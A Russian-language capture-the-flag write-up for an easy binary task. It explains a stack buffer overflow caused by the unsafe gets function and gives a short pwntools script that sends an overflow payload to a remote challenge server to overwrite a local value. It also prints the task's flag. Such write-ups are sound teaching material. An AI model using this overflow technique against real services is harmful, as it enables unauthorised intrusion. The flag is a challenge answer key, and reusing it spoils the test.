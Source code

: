 
# Сайт: forkbomb.ru 
# Автор: @mrvos (Vlad Roskov)
# Сложность: Easy

Решим последнюю задачу из категории MicCheck. Воспользуемся инструментом сстатического анализа Ghidra и отладчком edb. 
Посмотрим, как выглядит программа.

#### 1. Дизассемблированный вид:
![image](https://github.com/user-attachments/assets/e8c6059d-0544-46d1-a9e9-8f7100444bb5)

#### 2. Декомпилированный вид: 
![image](https://github.com/user-attachments/assets/ed5d5b5c-19c2-4059-98c5-d712661d15e8)

Изначально на стеке (до вызова функции `gets`) лежит два числа 0 и 0x29a, самым первым будет на стеке лежать содержимое массива `char local_38[8]`. Так, как в программе 
используется небезопасная функция `gets` можно и отсутствует `stack-protector` мы можем переполнить буфер и перезаписать число находящееся по смещению `[RBP + local_10]`, то есть 0x29a.
Сделаем это с помощью библеотеки `pwntools`.

```py
from pwn import * 

p = remote('109.233.56.90', 11586)
magic_num = 0xcc07c9
p.sendline(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + p32(magic_num))
p.interactive()
```
Запустив код, получим флаг: 
![image](https://github.com/user-attachments/assets/3126a6ae-1d21-42e1-9469-9bf7b2085ad7)

Ответ: `spbctf{s4v3d_the_w0rld_fr0M_HELL}`



